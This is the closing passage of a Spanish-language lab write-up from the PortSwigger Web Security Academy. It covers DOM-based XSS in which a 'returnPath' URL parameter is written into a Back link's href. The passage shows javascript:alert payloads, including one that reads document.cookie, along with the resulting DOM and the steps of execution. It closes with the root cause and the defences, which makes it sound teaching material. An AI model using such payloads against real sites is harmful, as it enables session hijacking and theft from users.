https://0a5400d103048b9e800062b5000700b8.web-security-academy.net/feedback?returnPath=javascript:alert(1)
```

URL final con `alert(document.cookie)`:

```text
https://0a5400d103048b9e800062b5000700b8.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
```

DOM resultante:

```html
<div class="is-linkback">
    <a id="backLink" href="javascript:alert(1)">Back</a>
</div>
```

Ejecución:

```text
Click en Back → navegador ejecuta javascript:alert(1) → popup → laboratorio resuelto.
```

---

## 35. Conclusión

Este laboratorio enseña una lección muy importante: XSS no siempre aparece donde esperamos.

En los casos más conocidos, pensamos en:

```html
<script>alert(1)</script>
```

O en:

```html

```

Pero aquí no necesitamos nada de eso.

El ataque consiste en controlar un enlace.

La aplicación toma un parámetro de la URL:

```text
returnPath
```

lo mete en el atributo:

```text
href
```

y no valida qué tipo de destino está permitiendo.

Eso permite convertir el enlace **Back** en:

```html
<a href="javascript:alert(1)">Back</a>
```

La vulnerabilidad no está en que el navegador haga algo raro. El navegador está haciendo exactamente lo que HTML permite históricamente. El fallo está en que la aplicación confía en un valor controlado por el usuario y lo coloca en un atributo con comportamiento ejecutable.

La defensa real es validar el destino, permitir solo rutas internas o protocolos seguros, y no depender de filtros superficiales como bloquear `<script>` o escapar comillas.

